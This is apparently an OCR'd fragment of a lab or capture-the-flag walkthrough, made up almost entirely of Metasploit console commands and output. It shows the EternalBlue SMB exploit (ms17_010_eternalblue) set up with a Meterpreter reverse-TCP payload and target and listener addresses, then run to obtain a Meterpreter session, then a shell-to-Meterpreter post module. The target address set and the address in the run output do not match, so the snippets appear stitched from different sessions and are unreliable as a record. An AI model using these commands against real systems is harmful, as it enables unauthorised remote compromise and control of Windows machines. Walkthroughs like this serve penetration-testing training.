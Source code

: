 
Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread,
                                        process, none)
   LHOST     192.168.1.250    yes       The listen address (an interface may be spe
                                        cified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(windows/smb/ms17_010_eternalblue) > 
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.213.97
RHOSTS => 10.10.213.97
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost 10.10.16.2
lhost => 10.10.16.2
```

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
```

```
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > 
```

